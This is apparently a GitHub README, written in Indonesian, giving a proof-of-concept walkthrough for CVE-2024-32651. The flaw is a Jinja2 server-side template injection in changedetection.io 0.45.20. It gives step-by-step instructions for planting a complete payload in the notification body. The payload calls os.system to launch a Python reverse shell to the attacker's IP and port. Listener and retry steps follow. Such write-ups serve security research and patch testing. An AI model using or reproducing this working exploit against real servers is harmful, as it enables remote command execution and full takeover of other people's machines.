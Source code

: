 # CHANGEDETECTION.io 0.45.20

# Cara Kerja
ChangeDetection.io bekerja dengan cara mengambil snapshot dari halaman web yang dipantau pada interval waktu tertentu, lalu membandingkannya dengan snapshot sebelumnya untuk mendeteksi perubahan. Pengguna dapat menentukan URL halaman yang ingin dipantau untuk memantau area tertentu saja. Ketika perubahan terdeteksi, sistem akan mengirimkan notifikasi melalui metode yang dipilih, seperti Discord, Email, Slack, Telegram, API calls, dan lainnya. 

# Kerentanan
Kerentanan Server-Side Template Injection (SSTI) pada aplikasi changedetection.io yang menggunakan mesin template Jinja2. Kerentanan ini memungkinkan penyerang melakukan Remote Command Execution (RCE) pada host server, memberikan mereka kemampuan untuk menjalankan perintah sistem tanpa batasan, termasuk kemungkinan penggunaan reverse shell. Dampaknya sangat kritis karena penyerang dapat mengambil alih sepenuhnya mesin server.

# Langkah-langkah
*Sebelum memulai, jalankan web server anda (http.server)*

1. Intro (silahkan login menggunakan kata sandi anda)
![Screenshot 2025-01-04 104116](https://github.com/user-attachments/assets/69d6858a-e9c7-44b3-a01a-93df091e5e9b)

2. Setelah Masuk, masukan alamat pada url kemudian klik "Watch". Setelah itu klik "edit"
![Screenshot 2025-01-04 204927](https://github.com/user-attachments/assets/25c8a380-9eab-4b83-94e4-df7ca405d186)

3. Pada tab "General", masukkan kembali url ke web server anda. Setelah itu set Time -> "Seconds = 30". Klik tab "Notifications"
   *pastikan "Send a notification .." di centang*

4. Pada "Notification URL List", input "gets://<ip>". Pada bagian "Notification Body", copy & paste payload dan ubah IP serta port.

*payload: {{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}*

SAVE!!
(Kembali ke Dashboard)

# Langkah untuk mendapatkan Reverse Shell

1. Aktifkan listener, masukkan port sesuai dengan port yang telah ditentukan pada payload sebelumnya
2. Tambahkan sebuah file pada direktori di "/home/user/" (pada kasus saya,  silahkan sesuaikan dengan kondisi anda)
3. Klik "Recheck" pada bagian alamat website anda.
4. Perhatikan listener anda!

*jika gagal, lanjut poin 5*

5. Reload dashboard
6. Hapus file pada direktori di pc
7. Kembali ke web, centang bagian alamat website anda, kemudian klik "Recheck"
*Jika masih gagal, perhatikan video dibawah*

# PoC
https://github.com/user-attachments/assets/af73e1cd-b55d-480d-8f9e-0129ded43b75

Sumber :
- [CVE Details](https://www.cvedetails.com/cve/CVE-2024-32651)
- [Hacktive Security](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io)
- [Cyber Material](https://cybermaterial.com/server-side-template-injection-with-jinja2/)
